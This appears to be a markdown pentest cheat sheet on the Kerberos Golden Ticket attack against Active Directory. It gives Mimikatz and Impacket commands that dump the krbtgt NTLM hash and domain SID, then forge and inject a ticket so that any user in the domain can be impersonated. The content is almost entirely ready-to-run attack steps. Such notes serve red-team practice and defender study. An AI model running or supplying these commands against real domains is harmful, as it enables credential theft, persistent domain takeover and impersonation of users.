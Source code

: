 # Golden Ticket Attack

With just a couple pieces of information, you can create a ticket that can be used to impersonate any user across the domain.

## Required pieces of information

1. The name of the user account to impersonate
    * Doesn't have to be a real user account
    * i.e., Administrator
2. The user ID of the user account to impersonate
    * i.e., 500
3. The name of the domain
    * i.e., hydra.test
4. The SID of the domain
    * i.e., S-1-5-21-849420856-2351964222-986696166
5. The NTLM hash of the Kerberos Ticket Granting Ticket (**krbtgt**) account

## (Mimikatz) Obtain domain SID & krbtgt NTLM hash

* Requires domain administrator privileges

Run *lsadump::lsa* against the **krbtgt** account to obtain the domain SID and its NTLM hash.

```powershell
mimikatz: lsadump::lsa /inject /name:krbtgt
```

![Obtaining information for golden ticket using Mimikatz's lsadump](images/golden-ticket-lsadump.png)

## (PowerView) Obtain domain SID

```powershell
Get-DomainSID
```

## (Active Directory PowerShell Module) Obtain Domain SID

```powershell
Get-ADDomain
```

## (Impacket) Obtain Domain SID

```bash
lookupsid.py
```

## (Impacket) Obtain krbtgt NTLM

* Requires domain administrator privileges

```bash
secretsdump.py $DNS_DOMAIN_NAME/$USERNAME:$PASSWORD@$DOMAIN_CONTROLLER_HOSTNAME_OR_IP
```

## (Mimikatz) Create and Use the golden ticket

```powershell
mimikatz: kerberos::golden /user:$TARGET_USER_NAME /domain:$DOMAIN_NAME /sid:$DOMAIN_SID /krbtgt:$KRBTGT_NTLM /id:$TARGET_USER_ID /ptt
```

![Creating a golden ticket using Mimikatz](images/golden-ticket-kerberos-golden.png)

Open up a new command prompt that leverages the golden ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc::cmd
```

## [(Impacket) Create and Use the Golden Ticket](https://yojimbosecurity.ninja/golden-ticket-with-impacket/)
